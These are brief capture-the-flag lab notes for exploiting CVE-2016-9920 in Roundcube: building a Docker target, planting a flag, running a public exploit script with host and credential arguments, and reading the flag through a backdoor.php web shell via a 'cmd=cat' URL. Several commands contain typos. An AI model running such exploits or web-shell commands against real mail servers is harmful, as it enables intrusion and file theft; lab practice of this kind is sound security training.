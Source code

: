 https://github.com/t0kx/exploit-CVE-2016-9920.git
 
Create flag.txt and put bsb17_5bb708a5f6fcb46badf46e254fa21919
Modify Docker with flag.txt to copy flag.txt to /etc/flag.txt
Docker build -t roundcube .
docker run -d -p 8085:80 rounecube:latest 
 
Docker run -rm -it p8085:80 roundcube:latest
 
Execute ./exploit.py --host 10.1.119.219 --user username --pwd password --path roundcube --www_path "/var/www/html/roundcube"
http://ip:8080/roundcub/backdoor.php?cmd=cat%20/flag.txt
 
 
Run the exploit python script from the git repo.. 
http://10.1.119.219:8085/roundcube/backdoor.php?cmd=cat%20/etc/flag.txt
